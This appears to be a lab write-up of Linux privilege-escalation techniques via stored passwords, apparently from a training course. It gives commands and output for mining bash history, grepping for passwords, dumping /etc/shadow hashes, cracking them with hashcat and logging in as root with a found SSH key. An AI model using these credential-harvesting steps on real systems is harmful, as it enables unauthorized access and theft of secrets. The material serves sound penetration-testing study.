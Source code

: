 ### First technique - history 

1. Check bash history to find any credentials
~~~bash
TCM@debian:~$ history
    1  ls -al
    2  cat .bash_history 
    3  ls -al
    4  mysql -h somehost.local -uroot -ppassword123
    5  exit
    6  cd /tmp
    7  clear
~~~

2. Used obtained creds to login
~~~bash
TCM@debian:~$ su root
Password: 
root@debian:/home/user# exit
exit
~~~

### Second Technique - Finding logs lines 
1. Use payload all the things commands - gives lines containing password. 
~~~bash
TCM@debian:~$ find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
~~~

### Third Technique - Running automated scripts 
1. Run Linpeas script
2. Run Linenum script


### Fourth Technique - Check all files in accessible directory
~~~bash
TCM@debian:~$ ls -la
total 48
drwxr-xr-x  5 TCM  user 4096 Jun 18  2020 .
drwxr-xr-x  3 root root 4096 May 15  2017 ..
-rw-------  1 TCM  user  801 Jun 18  2020 .bash_history
-rw-r--r--  1 TCM  user  220 May 12  2017 .bash_logout
-rw-r--r--  1 TCM  user 3235 May 14  2017 .bashrc
drwx------  2 TCM  user 4096 Aug 17 01:57 .gnupg
drwxr-xr-x  2 TCM  user 4096 May 13  2017 .irssi
-rw-------  1 TCM  user  137 May 15  2017 .lesshst
-rw-r--r--  1 TCM  user  212 May 15  2017 myvpn.ovpn
-rw-------  1 TCM  user   11 Jun 18  2020 .nano_history
-rw-r--r--  1 TCM  user  725 May 13  2017 .profile
drwxr-xr-x 10 TCM  user 4096 Jun 18  2020 tools
TCM@debian:~$ cat myvpn.ovpn 
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

TCM@debian:~$ cat /etc/openvpn/auth.txt
user
password321

~~~


### Fifth Technique - Weak File Permissions

- cat out /etc/passwd
~~~bash
TCM@debian:~$ ls -la /etc/passwd
-rw-r--r-- 1 root root 950 Jun 17  2020 /etc/passwd
TCM@debian:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:103::/var/spool/exim4:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
statd:x:103:65534::/var/lib/nfs:/bin/false
TCM:x:1000:1000:user,,,:/home/user:/bin/bash
~~~

- cat out /etc/shadow
~~~bash
cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
TCM:$6$hDHLpYuo$El6r99ivR20zrEPUnujk/DgKieYIuqvf9V7M.6t6IZzxpwxGIvhqTwciEw16y/B.7ZrxVk1LOHmVb/xyEyoUg.:18431:0:99999:7:::
~~~


- copy both on local machine
~~~bash
(kali㉿kali)-[~]
└─$ ls                                                            
Desktop  Documents  Downloads  Music  passwd  Pictures  Public  shadow  Templates  unshadow  Videos
~~~

- unshadow using both file
~~~bash
┌──(kali㉿kali)-[~]
└─$ unshadow passwd shadow
~~~

- use hashcat to crack unshadow file - [hashes types examples](https://hashcat.net/wiki/doku.php?id=example_hashes)
~~~bash
┌──(kali㉿kali)-[~]
└─$ hashcat -m 1800 -a 0 unshadow /usr/share/wordlists/rockyou.txt 
~~~

- Login using obtained creds. 

### Sixth techniques - SSH keys 
- Find the authorized keys or id_rsa keys. #sshkeys
~~~bash
TCM@debian:~$ find / -name authorized_keys 2> /dev/null
TCM@debian:~$ find / -name id_rsa 2> /dev/null
/backups/supersecretkeys/id_rsa
~~~

- Copied id_rsa in the local machine.
~~~bash
TCM@debian:~$ cat /backups/supersecretkeys/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/kYC4
B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLma
~~~

- Give read and write permission to owners only for id_rsa file and build connection
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo chmod 600 id_rsa 

┌──(kali㉿kali)-[~]
└─$ sudo ssh -i id_rsa -oHostKeyAlgorithms=+ssh-dss root@10.10.100.135 
~~~

